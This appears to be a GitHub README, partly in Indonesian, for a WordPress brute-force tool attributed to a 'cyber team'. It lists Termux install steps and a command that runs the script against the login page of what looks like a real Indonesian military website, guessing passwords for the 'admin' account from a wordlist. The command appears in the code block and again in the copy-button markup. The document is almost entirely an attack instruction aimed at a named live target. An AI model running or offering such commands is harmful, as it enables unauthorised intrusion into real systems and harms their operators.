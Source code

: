 # Wordpress-Bruteforce

<img src="https://l.top4top.io/p_2240nm0hp0.png" width="400" height="250" alt="kelelawar cyber team">
<br>

# Perintah Menjalankan: 
<div class="snippet-clipboard-content position-relative overflow-auto">
<pre><code>
$ pkg update && pkg upgrade
$ pkg install git
$ pkg install python2
$ python2 wpbf.py -h https://korem091-tniad.mil.id/wp-login.php -u admin -P 110.txt
</code></pre>
<div class="zeroclipboard-container position-absolute right-0 top-0">
<clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="$ pkg update &amp;&amp; upgrade
$ pkg update && pkg upgrade
$ pkg install git
$ pkg install python2
$ python2 wpbf.py -h https://korem091-tniad.mil.id/wp-login.php -u admin -P 110.txt" tabindex="0" role="button" style="display: inherit;">
